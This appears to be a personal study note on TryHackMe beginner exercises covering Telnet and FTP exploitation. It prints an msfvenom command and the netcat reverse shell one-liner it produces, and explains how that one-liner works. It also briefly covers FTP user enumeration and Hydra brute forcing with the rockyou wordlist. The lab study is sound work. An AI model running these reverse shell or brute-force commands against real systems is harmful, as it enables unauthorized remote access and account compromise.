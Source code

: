 # TryHackMe: Complete Beginner

author:: Nathan Acks  
date:: 2021-10-02

## Network Services

### Exploiting Telnet

```bash
# Listen for ICMP ping packets on an interface:
#
sudo tcpdump ip proto \icmp -i $IFACE

# Use Metasploit to generate the code for a remote shell:
# 
msfvenom -p cmd/unix/reverse_netcat lhost=$LOCAL_IP \
	lport=$LOCAL_PORT R

# Spin up a listener using netcat:
#
nc -lvp $LOCAL_PORT
```

In this exercise, Metasploit generates code that looks like this:

```bash
mkfifo /tmp/qdsrgu; \
	nc $LOCAL_IP $LOCAL_PORT 0</tmp/qdsrgu | \
	/bin/sh >/tmp/qdsrgu 2>&1; \
	rm /tmp/qdsrgu
```

($LOCAL_IP and $LOCAL_PORT aren’t literal — they’re *actually* the local IP address of my machine on TryHackMe’s VPN and my chosen port. Neither of which should be particularly sensitive, but I’m still not going to post it on the internet!)

What’s going on here?

* `mkfifo /tmp/qdsrgu` creates a named pipe at /tmp/qdsrgu.
* We then spin up a netcat instance directed at our local machine (`nc $LOCAL_IP $LOCAL_PORT`), direct the contents of the pipe into netcat’s STDIN (`0< /tmp/qdsrgu`), pipe the *output* of netcat to a shell we know probably exists (`| /bin/sh`), and finally redirect *both* STDOUT and STDERR back into the named pipe (`> /tmp/qdsrgu 2>&1`).
* On the local machine, `nc -lvp $LOCAL_PORT` listens for the incoming netcat connection from the remote. Anything we type on STDIN here gets sent to the remote and piped to /bin/sh *there*. The output of /bin/sh is then sent to the named pipe, which dumps into (the remote) netcat, which then sends the data to the local machine where it ends up on STDOUT.

### Understanding FTP

The active vs. passive FTP distinction is about how the *server* handles establishing the data channel (the command channel is always set up by the client connecting to the server).

* Active FTP: The client opens a port which the server *actively* connects to when establishing the data channel.
* Passive FTP: The server opens a port which the client connects to when establishing the data channel.

References:

* [File Transfer Protocol (Wikipedia)](https://en.wikipedia.org/wiki/File_Transfer_Protocol)

### Enumerating FTP

FTP denotes user accounts using a leading tilde; thus `cwd ~admin` will attempt to change the current working directory to the home directory of the `admin` user. Some (older) FTP daemons have a vulnerability where they allow the use of the `cwd` directory before login, and will return an error when attempting to change to a non-existent user directory.

Use nmap’s -sV option to attempt to probe for the service name and version information behind an open port.

Anonymous FTP logins, if allowed, use the username `anonymous` and a blank password.

* [Solaris 2.6/7.0 - IN.FTPD CWD 'Username' Enumeration](https://www.exploit-db.com/exploits/20745)

### Exploiting FTP

Hydra can directly try to brute force passwords on remote machines.

Kali’s rockyou.txt.gz is apparently a list of 14 million passwords dumped during the hack of some service called RockYou that I hadn’t previously heard of. Apparently RockYou was a social network that allowed direct connection to other social networks (including Facebook and MySpace)… And stored all of the relevant passwords (including their own) in the clear!

* [rockyou.txt wordlist](https://github.com/zacheller/rockyou)
* [RockYou Hack: From Bad To Worse](https://techcrunch.com/2009/12/14/rockyou-hack-security-myspace-facebook-passwords/)
